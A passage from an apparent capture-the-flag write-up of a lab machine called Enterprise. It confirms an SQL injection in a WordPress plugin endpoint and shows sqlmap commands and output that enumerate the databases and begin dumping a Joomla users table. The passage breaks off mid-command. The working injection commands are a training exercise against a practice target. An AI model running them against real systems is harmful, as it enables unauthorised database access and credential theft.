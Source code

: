 ## SQL Injection
From the previous section, it was identified that by using the keyword *query* on *lcars_dp.php*, an SQL injection can 
be injected into the host. Browsing to [http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1]( http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1)
confirmed the injection vulnerability.
![SQLi Confirmation](/assets/img/posts/enterprise/sqliConf.png)
Using *sqlmap*, the injection vulnerability was exploited to dump the databases as
```sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 --dbms=mysql --dbs``` and the results are 
given below.
```shell 
[pwnd_root@manjaro Enterprise]$ sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 --dbms=mysql --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:57:01 /2020-07-22/

[18:57:01] [INFO] testing connection to the target URL
---SNIP---
available databases [8]:
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb

[18:57:03] [INFO] fetched data logged to text files under '/home/pwnd_root/.sqlmap/output/10.10.10.61'
[18:57:03] [WARNING] you haven't updated sqlmap for more than 92 days!!!

[*] ending @ 18:57:03 /2020-07-22/
```
From the results, the databases *joomladb* and *wordpress* seemed more promising and hence they were enumerated first.
The results from every SQL dump is given on the following sections.
<br> **joomladb-** ***edz2g_users***
 ```shell 
[pwnd_root@manjaro Enterprise]$ sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 --dbms=mysql -D joomladb -T edz2g_users --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

 ```